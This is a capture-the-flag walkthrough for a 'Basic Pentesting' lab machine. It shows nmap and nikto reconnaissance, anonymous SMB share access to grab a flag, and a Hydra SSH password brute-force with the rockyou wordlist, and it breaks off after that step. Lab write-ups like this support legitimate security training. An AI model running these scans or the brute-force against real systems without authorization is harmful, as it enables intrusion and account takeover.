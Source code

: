 ```yaml
---
cover: ../../.gitbook/assets/e10.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Basic Pentesting

### Enumeration

* Scan all ports and its services.

```bash
kali@kali> echo '10.10.11.71 basic.thm' | sudo tee -a /etc/hosts
kali@kali> nmap basic.thm -oN nmap-scan -T4
kali@kali> ports="$(cat nmap-scan|grep ^[0-9]|cut -d'/' -f1|tr '\n' ','|sed 's/,$//')"
kali@kali> nmap -p $ports -sV basic.thm -oN nmap-services
```

* Retrieve information with `nikto`.

```bash
kali@kali> nikto -host http://basic.thm
```

* If you go to http://basic.thm/development there are 2 files. In `j.txt`, the user **K** says to **J** that its password is to weak. Thus we should try cracking the **J**'s password once we get his username.
* We can enumerate the directories from the smb service. The real username of **J** is **Jan** and **K** is **Kay**.

```bash
kali@kali> smbclient -L //basic.thm
kali@kali> smbclient //basic.thm/Anonymous
smb> get flag.txt
smb> exit
```

* Let's crack the Jan's password with Hydra through SSH ! You must wait up to 10 minutes to get the password.

```bash
kali@kali> hydra -l jan -P /usr/share/wordlists/rockyou.txt basic.thm ssh
```
